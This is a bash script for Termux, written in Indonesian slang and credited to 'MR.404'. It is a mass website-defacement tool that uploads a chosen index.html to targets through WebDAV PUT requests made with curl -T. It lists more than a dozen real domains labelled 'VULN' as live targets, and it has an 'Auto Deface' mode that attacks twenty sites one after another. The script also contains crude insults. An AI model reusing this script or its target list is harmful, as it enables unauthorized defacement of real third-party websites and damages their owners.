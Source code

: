 #genjiii
green="\033[32;1m"
yellow="\033[33;1m"
indigo="\033[34;1m"
red="\033[35;1m"
purple="\033[37;1m"
cyan="\033[36;1m"
white="\033[39;1m"
pkg install toilet -y
bash jr.sh
echo
echo  $green
echo "Proses ajg.............";
sleep 0.1;
clear
echo  $green
echo 'Harap Sabar Boss.........................';
sleep 0.1;
clear
echo  $red
echo 'Harap Sabar...................................................';
sleep 0.4;
echo  $green
echo "sabar....................................";
sleep 0.1;
clear
echo
echo
echo
echo
echo
echo
echo
toilet -f future "    DIPES" | lolcat
echo
echo $red"##########################$green" hello_madafaka "$red###########################"
echo $yellow
figlet -f future "TARAKAN-TEAM"
echo
echo $red"##########################$green" hello_madafaka "$red###########################"
echo
echo $indigo"	~"$cyan"{"$white"A"$cyan"}"$green"."$yellow"Tebas Index"$cyan
echo
echo $cyan"＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿"
echo
echo $indigo"  +"$cyan"{"$white"T"$cyan"}"$purple"."$green"BAPAK KAU PEANG"$indigo"      +"$cyan"{"$white"I"$cyan"}"$green"Info"$indigo"      +"$cyan"{"$white"Q"$cyan"}"$green"Quit"$cyan
echo $cyan"＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿"
echo $indigo"=============================================================="
echo
echo $white "╭─"$yellow"DEMON|TEAM"$cyan" ~/MR.404"$white
read -p " ╰─$ "  apaan
echo
if [ $apaan = "A" ] || [ $apaan = "a" ]
then
echo
echo
echo
clear
echo
echo
echo
echo
toilet -f future "WEBDAV MR.404" | lolcat
echo
echo $red "Simpan SC elu Di Memory Internal Di Luar Folder "
echo
echo $yellow "Live Target"
echo "http://cmweb.co.za"VULN
echo "http://essentialtours.com"VULN
echo "http://n8tive.co.za"VULN
echo "http://loveless.co.za"VULN
echo "http://kobralocks.com"VULN
echo "http://karma-it.co.za"VULN
echo "http://homes2view.co.za"VULN
echo "http://sinudeity.co.za"VULN
echo "http://nhsgilde.co.za"VULN
echo "http://stitchaccounting.co.za"VULN
echo "http://quintessential-tours.com"VULN
echo "http://crimsonmonkeyweb.com"VULN
echo "http://windmillsandporcupines.co.za"VULN
echo "http://crimsonmonkeyweb.com"VULN
echo
echo $red "MASUKIN TARGET ASU!!!"
echo $green "╭─"$blue"DEMON|TEAM"$cyan" ~/RABBIT-ST"$white
read -p " ╰─$ "  target
echo
echo $red "Masukan Script!!! "
echo $green "╭─"$blue"DEMON|TEAM"$cyan" ~/Nama SC Lu Harus(index.html)"$white
read -p " ╰─$ "  script
curl -T /storage/emulated/0/$script $target
echo $red "["$yellow"Hacked"$red"]"$cyan"～～～＞"$green" $target"
echo
echo $cyan"["$yellow"B"$cyan"]"$white"back "$cyan"["$yellow"Q"$cyan"]"$white"Quit"
read -p "[B/Q] : " back
fi

if [ $apaan = "B" ] || [ $apaan = "b" ]
then
echo
echo
echo
clear
echo
echo
echo
cd Files
php kamu.php
echo
echo $cyan"["$yellow"B"$cyan"]"$white"back "$cyan"["$yellow"Q"$cyan"]"$white"Quit"
read -p "[B/Q] : " back
fi

if [ $apaan = "C" ] || [ $apaan = "c" ]
then
echo
echo
echo
clear
echo
echo
echo
echo $red
toilet -f future "Auto Deface BOS" | lolcat
echo $cyan "Deface Masal Sebanyak 20 Web"
echo
echo $red"###"$blue" ctrl + c to quit"$red" ###"
echo
echo
echo
echo "Masukan Script !!!!"
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/MR.404"$white                               
read -p " ╰─$ " script
echo
echo
echo $white"Masukan Target1 !!!!"
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/Crot"$white
read -p " ╰─$ " target1
curl -T /storage/emulated/0/$script $target1
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target1/$script"
echo
echo $white"Masukan Target2 !!!!"
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/RABBIT-ST"$white
read -p " ╰─$ " target2
curl -T /storage/emulated/0/$script $target2
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target2/$script"
echo
echo $white"Masukan Target3 !!!!"
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/Crot"$white
read -p " ╰─$ " target3
curl -T /storage/emulated/0/$script $target3
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target3/$script"
echo
echo $white"Masukan Target4 !!!!"
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/RABBIT-ST"$white
read -p " ╰─$ " target4
curl -T /storage/emulated/0/$script $target4
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target4/$script"
echo
echo $white"Masukan Target5 !!!!"
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/Crot"$white
read -p " ╰─$ " target5
curl -T /storage/emulated/0/$script $target5
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target5/$script"
echo
echo $white"Masukan Target6 !!!!"
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/Crot"$white
read -p " ╰─$ " target6
curl -T /storage/emulated/0/$script $target6
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target6/$script"
echo
echo $white"Masukan Target7 !!!!"
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/RABBIT-ST"$white
read -p " ╰─$ " target7
curl -T /storage/emulated/0/$script $target7
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target7/$script"
echo
echo $white"Masukan Target8 !!!!"
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/Crot"$white
read -p " ╰─$ " target8
curl -T /storage/emulated/0/$script $target8
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target8/$script"
echo
echo $white"Masukan Target9 !!!!"
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/RABBIT-ST"$white
read -p " ╰─$ " target9
curl -T /storage/emulated/0/$script $target9
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target9/$script"
echo
echo $white"Masukan Target10 !!!! "
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/Crot"$white
read -p " ╰─$ " target10
curl -T /storage/emulated/0/$script $target10
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target10/$script"
echo
echo $white"Masukan Target11 !!!! "
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/RABBIT-ST"$white
read -p " ╰─$ " target11
curl -T /storage/emulated/0/$script $target11
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target11/$script"
echo
echo $white"Masukan Target12 !!!! "
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/Crot"$white
read -p " ╰─$ " target12
curl -T /storage/emulated/0/$script $target12
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target12/$script"
echo
echo $white"Masukan Target13 !!!! "
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/RABBIT-ST"$white
read -p " ╰─$ " target13
curl -T /storage/emulated/0/$script $target13
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target13/$script"
echo
echo $white"Masukan Target14 !!!! "
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/Crot"$white
read -p " ╰─$ " target14
curl -T /storage/emulated/0/$script $target14
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target14/$script"
echo
echo $white"Masukan Target15 !!!! "
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/RABBIT-ST"$white
read -p " ╰─$ " target15
curl -T /storage/emulated/0/$script $target15
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target15/$script"
echo
echo $white"Masukan Target16 !!!! "
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/Crot"$white
read -p " ╰─$ " target16
curl -T /storage/emulated/0/$script $target16
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target16/$script"
echo
echo $white"Masukan Target17 !!!! "
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/RABBIT-ST"$white
read -p " ╰─$ " target17
curl -T /storage/emulated/0/$script $target17
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target17/$script"
echo
echo $white"Masukan Target18 !!!! "
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/Crot"$white
read -p " ╰─$ " target18
curl -T /storage/emulated/0/$script $target18
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target18/$script"
echo
echo $white"Masukan Target19 !!!! "
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/RABBIT-ST"$white
read -p " ╰─$ " target19
curl -T /storage/emulated/0/$script $target19
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target19/$script"
echo
echo $white"Masukan Target20 !!!! "
echo $white "╭─"$green"DEMON|TEAM"$cyan" ~/Crot"$white
read -p " ╰─$ " target20
curl -T /storage/emulated/0/$script $target20
echo $cyan"["$green"+"$cyan"]"$red"==="$white"＞"$green"$target20/$script"
echo
echo
echo $cyan"["$yellow"B"$cyan"]"$white"back "$cyan"["$yellow"Q"$cyan"]"$white"Quit"
read -p "[B/Q] : " back
fi

if [ $apaan = "I" ] || [ $apaan = "i" ]
then
echo
echo
echo
clear
echo
echo
echo
echo
toilet -f future "   Informasi Tools" | lolcat
echo $red"##########################$green" WELCOME "$red###########################"
echo $green"Author  : MR.404			"
echo
echo $yellow"                          THANKS TO :"
echo
echo $cyan"[@] CYBERHOOD & All AUTHOR MR.404 "
echo $red"##########################$green" WELCOME "$red###########################"
echo $indigo"＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿＿"
echo
echo $cyan"["$yellow"B"$cyan"]"$white"back "$cyan"["$yellow"Q"$cyan"]"$white"Quit"
read -p "[B/Q] " back
fi

if [ $apaan = "T" ] || [ $apaan = "t" ]
then
cat tutorial.txt
echo
echo $cyan"["$yellow"B"$cyan"]"$white"back "$cyan"["$yellow"Q"$cyan"]"$white"Quit"
read -p "[B/Q] " back
fi

if [ $apaan = "Q" ] || [ $apaan = "q" ]
then
echo " Tengkyu yg udah Make tools MR.404 "
exit
clear
fi


if [ $back = "B" ] || [ $back = "b" ]
then
sh ICA.sh
fi

if [ $back = "Q" ] || [ $back = "q" ]
then
clear
fi

